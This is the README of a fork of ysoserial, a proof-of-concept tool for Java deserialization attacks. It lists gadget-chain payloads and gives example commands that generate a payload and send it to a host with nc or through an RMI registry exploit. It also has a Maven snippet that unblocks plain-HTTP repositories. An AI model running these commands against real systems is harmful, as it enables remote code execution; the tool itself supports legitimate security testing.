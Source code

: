 
# ysoserial

**Fork**: This is a fork of [https://github.com/wh1t3p1g/ysoserial](The wh1t3p1g fork) of ysoserial. The only change here so far is a modified README.md and pom.xml to allow building using modern Maven versions.


[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Update

* CommonsCollection8,9,10
* RMIRegistryExploit2,3
* RMIRefListener,RMIRefListener2
* PayloadHTTPServer
* Spring3

最新的相关研究已转移到[ysomap](https://github.com/wh1t3p1g/ysomap)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar                                                                                                         ✹master
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
Feb. 02, 2024 4:56:16 PM org.reflections.Reflections scan
INFO: Reflections took 49 ms to scan 1 urls, producing 18 keys and 162 values
     Payload              Authors                                Dependencies
     -------              -------                                ------------
     BeanShell1           @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                 @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure              @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1    @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1  @frohoff                               commons-collections:3.1
     CommonsCollections10 @wh1t3p1g                              commons-collections:3.2.1
     CommonsCollections2  @frohoff                               commons-collections4:4.0
     CommonsCollections3  @frohoff                               commons-collections:3.1
     CommonsCollections4  @frohoff                               commons-collections4:4.0
     CommonsCollections5  @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6  @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7  @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     CommonsCollections8  @navalorenzo                           commons-collections4:4.0
     CommonsCollections9  @wh1t3p1g                              commons-collections:3.1
     FileUpload1          @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1              @frohoff                               groovy:2.3.9
     Hibernate1           @mbechler
     Hibernate2           @mbechler
     JBossInterceptors1   @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient           @mbechler
     JRMPListener         @mbechler
     JSON1                @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1       @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21              @frohoff
     Jython1              @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1        @matthias_kaiser                       js:1.7R2
     MozillaRhino2        @_tint0                                js:1.7R2
     Myfaces1             @mbechler
     Myfaces2             @mbechler
     ROME                 @mbechler                              rome:1.0
     Spring1              @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2              @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     Spring3              @wh1t3p1g                              spring-tx:5.2.3.RELEASE, spring-context:5.2.3.RELEASE, javax.transaction-api:1.2
     URLDNS               @gebl
     Vaadin1              @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1              @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```



## Building

This repositories `pom.xml` has been updated to work with more up to date versions of Maven. 

I used `3.9.61` and Java 11 (later Java versions may not work). I set the alternate JDK from the command line like so:

```
$ export JAVA_HOME=/Library/Java/JavaVirtualMachines/openjdk11-temurin/Contents/Home
```

Compile as follows:

```mvn clean package -DskipTests```


The following may be needed in the Maven configuration file `~/.m2/settings.xml` to allow access to blocked repositories.

```
<settings xmlns="http://maven.apache.org/SETTINGS/1.2.0"
          xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
          xsi:schemaLocation="http://maven.apache.org/SETTINGS/1.2.0 http://maven.apache.org/xsd/settings-1.2.0.xsd">
   <mirrors>
        <mirror>
            <id>maven-default-http-blocker</id>
            <mirrorOf>external:dont-match-anything-mate:*</mirrorOf>
            <name>Pseudo repository to mirror external repositories initially using HTTP.</name>
            <url>http://0.0.0.0/</url>
            <blocked>false</blocked>
        </mirror>
    </mirrors>
</settings>
```



## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization

